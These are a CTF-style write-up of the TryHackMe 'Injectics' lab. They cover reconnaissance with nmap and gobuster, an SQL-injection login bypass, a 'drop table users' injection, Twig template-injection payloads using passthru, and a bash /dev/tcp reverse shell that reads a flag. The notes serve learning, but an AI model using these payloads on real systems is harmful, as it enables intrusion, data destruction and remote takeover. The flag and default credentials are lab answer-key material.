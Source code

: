 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Injectics
**IP** : 10.10.234.174 | 10.10.72.119
**Objectives :** Get the admin panel flag and and the hidden text file flag
**OS :** ?

##### **Conclusion**
**Time :** 
	**Start :** 05.03.2025 / 19:31
	**Break at/to :** 05.03.2025 / 21:11  ||  09.03.2025 / 16:30
	**Finish :** 09.03.2025 / 17:22
**Satisfaction :**  8/10 I use medium for some logics
### 1. **Reconnaissance

Firsto of all, we start with a #nmap scan :

```BASH
nmap -A -p- -v 10.10.234.174
```

Output :

```BASH
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Injectics Leaderboard
```

We can see the port 80 open so its probably a web app.
We also see a server #apache and an Ubuntu so it's a #linux 

We open #burpsuite for analyzing the requests

![[Pasted image 20250305204445.png]]

The site map of #burpsuite show this.

#gobuster show us this result :

```BASH
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.234.174 -x html,php,js,txt,config
```

Output :

```BASH
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 6588]
/login.php            (Status: 200) [Size: 5401]
/mail.log             (Status: 200) [Size: 1098]
/flags                (Status: 301) [Size: 314] [--> http://10.10.234.174/flags/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.234.174/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.234.174/js/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/vendor               (Status: 301) [Size: 315] [--> http://10.10.234.174/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> dashboard.php]
/functions.php        (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.234.174/phpmyadmin/]
/conn.php             (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 278]
```


Go try `mail.log`

```TEXT
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm
```


We have enought informations now. 
## 2. **Weaponization

## 3. **Delivery

## 4. **Exploitation

On the `login.php` page that we discovered we can try an sql injection. 

![[Pasted image 20250305205106.png]]

But it's doesn't work.

So we try on `adminLogin007.php`
Same issue.

The logins of `mail.log` are not working.

With this sql injections list on #github we try to brut force with burp suite 
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt

![[Pasted image 20250305215532.png]]

![[Pasted image 20250305215818.png]]

![[Pasted image 20250305220016.png]]

`%27%20%4f%52%20%27%78%27%3d%27%78%27%23%3b`

Hehe

To get access to the admin panel for the challenge question, we need to delete the `users` table. So we want to find somewhere to inject: #SQLInjection 

```SQL
drop table users -- -
```

![[Pasted image 20250309165211.png]]

![[Pasted image 20250309165227.png]]

Perfect

Now we just need to log to the admin panel with de credentials we has discovered in `mail.log` #clearTextCredentials 

![[Pasted image 20250309165444.png]]

Hehe

On the `update_profile.php` page we edit the First name to `{{7*7}}` and on the dashboard we can see that : #ssti

![[Pasted image 20250309165729.png]]

So we are probabely on twig and we now have to find the good injection.

There's

```php
{{['id',""]|sort('passthru')}}
```

![[Pasted image 20250309171459.png]]

we are `www-data`
## 5. **Installation

## 6. **Command and Control

We now create a #rce

```BASH
nc -lvnp 4444
```

```php
{{ ['/bin/bash -c "bash -i >& /dev/tcp/10.10.74.179/4444 0>&1"', '']|sort('passthru') }}
```

![[Pasted image 20250309172001.png]]

## 7. **Actions on Objectives

The flag is a hidden text file in the flags folder.

```BASH
www-data@injectics:/var/www/html$ ls
ls
adminLogin007.php
banner.jpg
composer.json
composer.lock
conn.php
css
dashboard.php
edit_leaderboard.php
flags
functions.php
index.php
injecticsService.php
js
login.php
logout.php
mail.log
script.js
styles.css
update_profile.php
vendor
www-data@injectics:/var/www/html$ ls flags
ls flags
5d8af1dc14503c7e4bdc8e51a3469f48.txt
www-data@injectics:/var/www/html$ cat flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt
<tml$ cat flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt
THM{5735172b6c147f4dd649872f73e0fdea}
www-data@injectics:/var/www/html$ 
```

There is our flag.

`THM{5735172b6c147f4dd649872f73e0fdea}`